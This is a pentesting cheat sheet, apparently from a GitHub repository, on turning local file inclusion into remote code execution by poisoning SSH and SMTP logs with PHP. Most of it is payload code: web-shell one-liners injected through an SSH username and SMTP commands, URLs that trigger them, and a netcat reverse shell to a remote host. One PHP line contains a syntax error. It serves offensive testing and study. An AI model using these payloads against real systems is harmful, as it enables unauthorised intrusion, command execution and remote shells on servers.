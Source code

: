#### SSh log poisoning
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log 



Payload: ssh <?php system($_GET['c']);?>@<target_ip>


Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&c=id
```
#### SMTP log poisoning
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log 



telnet <target_ip> 25 // Replace with the target IP
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log&c=id
```


#### Extras
Here are some php rce code that you can use in a suited situation....
```
<?php system($_GET['c']); ?>
<?php system($_REQUEST['c']$); ?>

<?php
$os = shell_exec('id');
echo "<pre>$os</pre>";
?>

<?php
$os = shell_exec('nc 10.10.10.10 4444 -e /bin/bash');
?>

// Replace IP & Port

Dangerous PHP Functions that can be abused for RCE
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

### PHP Filters
php://filter allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.
